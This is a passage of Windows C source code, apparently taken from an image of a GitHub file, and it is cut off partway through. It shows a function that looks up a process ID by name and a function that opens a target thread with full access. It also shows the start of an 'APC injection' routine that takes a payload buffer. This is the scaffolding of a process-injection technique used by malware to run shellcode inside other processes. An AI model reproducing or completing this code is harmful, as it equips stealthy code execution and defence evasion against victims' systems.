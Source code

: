 
	wcsncpy_s(procnameLower, 260, procname, _TRUNCATE);
	for (size_t i = 0; procnameLower[i]; i++) {
		procnameLower[i] = towlower(procnameLower[i]);
	}

	hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

	pe32.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(hProcSnap, &#x26;pe32)) {
		CloseHandle(hProcSnap);
		return 0;
	}

	while (Process32Next(hProcSnap, &#x26;pe32)) {
		wcsncpy_s(exeNameLower, 260, pe32.szExeFile, _TRUNCATE);
		for (size_t i = 0; exeNameLower[i]; i++) {
			exeNameLower[i] = towlower(exeNameLower[i]);
		}

		if (wcscmp(procnameLower, exeNameLower) == 0) {
			pid = pe32.th32ProcessID;
			break;
		}
	}

	CloseHandle(hProcSnap);

	return pid;
}


HANDLE FindThread(int pid) {

	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;

	thEntry.dwSize = sizeof(thEntry);
	HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	while (Thread32Next(Snap, &#x26;thEntry)) {
		if (thEntry.th32OwnerProcessID == pid) {
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
		}
	}
	CloseHandle(Snap);

	return hThread;
}


// APC injection
int InjectAPC(int pid, HANDLE hProc, unsigned char* payload, unsigned int payload_len) {

	HANDLE hThread = NULL;
	LPVOID pRemoteCode = NULL;
	CONTEXT ctx;
